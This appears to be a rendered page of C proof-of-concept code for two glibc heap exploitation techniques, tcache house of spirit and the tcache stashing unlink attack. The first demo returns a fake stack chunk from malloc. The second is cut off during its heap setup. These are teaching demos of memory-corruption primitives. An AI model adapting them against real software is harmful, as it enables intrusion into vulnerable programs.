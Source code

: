 ## Tcache house of spirit

POC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	unsigned long long *a; //pointer that will be overwritten
	unsigned long long fake_chunks[10]; //fake chunk region
   
    malloc(1);
	fake_chunks[1] = 0x40; // this is the size
	a = &fake_chunks[2];
	free(a);
	void *b = malloc(0x30);
	printf("malloc(0x30): %p\n", b);
	assert((long)b == (long)&fake_chunks[2]);
}
```

### Tcache stashing unlink attack

POC

```C
  1 //gcc -g -no-pie hollk.c -o hollk
  2 //patchelf --set-rpath 路径/2.27-3ubuntu1_amd64/ hollk
  3 //patchelf --set-interpreter 路径/2.27-3ubuntu1_amd64/ld-linux-x86-64.so.2 hollk
  4 #include <stdio.h>
  5 #include <stdlib.h>
  6 #include <assert.h>
  7 
  8 int main(){
  9     unsigned long stack_var[0x10] = {0};
 10     unsigned long *chunk_lis[0x10] = {0};
 11     unsigned long *target;
 12 
 13     setbuf(stdout, NULL);
 14     
 15     printf("stack_var addr is:%p\n",&stack_var[0]);
 16     printf("chunk_lis addr is:%p\n",&chunk_lis[0]);
 17     printf("target addr is:%p\n",(void*)target);
 18 
 19     stack_var[3] = (unsigned long)(&stack_var[2]);
 20 
 21     for(int i = 0;i < 9;i++){
 22         chunk_lis[i] = (unsigned long*)malloc(0x90);
 23     }
 24 
 25     for(int i = 3;i < 9;i++){
 26         free(chunk_lis[i]);
 27     }
 28     
 29     free(chunk_lis[1]);
 30     free(chunk_lis[0]);
 31     free(chunk_lis[2]);
 32     
 33     malloc(0xa0);
 34     malloc(0x90);
 35     malloc(0x90);
 36     
```